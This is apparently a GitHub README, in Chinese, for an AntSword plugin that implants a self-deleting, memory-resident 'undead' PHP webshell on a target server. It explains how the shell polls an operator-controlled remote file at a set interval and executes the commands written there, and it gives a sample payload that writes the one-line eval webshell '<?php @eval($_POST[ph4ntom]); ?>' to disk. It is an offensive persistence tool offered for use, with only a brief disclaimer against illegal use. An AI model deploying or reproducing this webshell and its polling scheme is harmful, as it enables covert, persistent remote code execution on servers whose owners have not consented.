

# inject_und3ad

中国蚁剑（Antsword）插件

向目标服务器植入不死php webshell

## 演示

* 权限维持

点击左上角远程文件按钮，输入远程控制文件地址以及轮询时间（以秒为单位），点击确定即可（分隔符为###）

For example : http://192.168.134.128/1.txt###60   每60秒轮询一次http://192.168.134.128/1.txt里的内容

文件内容类似于 `file_put_contents('./1.php','<?php @eval($_POST[ph4ntom]); ?>')`;  (密码可自定义，路径也可自定义，此文件内容旨在每隔一段时间写入一个小马)

上述旨在利用php特性植入不死webshell，在执行完成后，此webshell会基于用户设置的轮询时间向用户设置的远程文件地址发送请求，用户只需在远程地址的txt文档中输入想要执行的命令即可
可。

此webshell在执行后会自身删除，驻留内存之中，无文件残留

清除办法包括重启web服务等

## 注意事项

  此插件仅支持php环境
  
  在远程文件上如果不打算执行命令，请在远程文件中写入一个空格，否则此webshell会退出。
  
  使用者不得用于非法用途
  
## Todo

  单独记录每一个shell所设置的不死马远程地址，方便使用者使用（这是我为何在下方留了一大块空白的原因）
 

